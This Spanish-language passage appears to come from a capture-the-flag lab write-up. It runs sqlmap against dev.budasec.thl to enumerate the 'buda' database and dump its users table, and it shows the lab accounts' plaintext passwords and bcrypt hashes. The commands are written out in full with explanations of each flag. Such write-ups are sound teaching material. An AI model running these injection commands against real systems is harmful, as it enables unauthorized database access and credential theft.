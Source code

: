 | Parámetros | Descripción |
|--------------------------|
| *-u*       | Define la URL objetivo. |
| *--batch*  | Ejecuta el comando sin solicitar confirmaciones al usuario. |
| *--forms*  | Analiza y prueba formularios en la URL objetivo. |
| *--dbs*    | Enumera todas las bases de datos disponibles. |

<br>

Obtengamos las tablas de la **BD buda**:
```bash
sqlmap -u 'http://dev.budasec.thl/' --batch --forms -D buda --tables
...
[16:03:33] [INFO] fetching tables for database: 'buda'
[16:03:33] [INFO] resumed: 'users'
Database: buda
[1 table]
+-------+
| users |
+-------+
```

| Parámetros | Descripción |
|--------------------------|
| *-u*       | Define la URL objetivo. |
| *--batch*  | Ejecuta el comando sin solicitar confirmaciones al usuario. |
| *--forms*  | Analiza y prueba formularios en la URL objetivo. |
| *-D*	     | Selecciona una base de datos especifica a enumerar. |
| *--tables* | Enumera las tablas de una base de datos específica. |

<br>

Solo hay una tabla.

Vamos a dumpear todos los datos de esta tabla:
```bash
sqlmap -u 'http://dev.budasec.thl/' --batch --forms -D buda -T users --dump
...
Database: buda
Table: users
[4 entries]
+----+-----------------+----------+--------------------------------------------------------------+
| id | password        | username | hashed_password                                              |
+----+-----------------+----------+--------------------------------------------------------------+
| 1  | ftpu@sr123p@@s! | ftpuser  | $2y$10$.gKHPvTvYkWfbRxtid10s.kgGWekExh9kx.Q/QMbaKQlH/ia6xx66 |
| 4  | admin123        | admin    | $2y$10$GgGK5MsjTbGrjqkTsLXCcOD0dui1zAXhTE72lDVB.c4igQQwHdP5a |
| 5  | password1       | user1    | $2y$10$6f8FfvozmWozwY3zeFvUCutLq4421U4RqTpXIfzITrrKG4KlnqWbm |
| 6  | password2       | user2    | $2y$10$UrcCrnPw7IdNp8minBpPC.HeXiQTlJ0dmVz0hWhqUfmcmRk6GdCg6 |
+----+-----------------+----------+--------------------------------------------------------------+
...
```
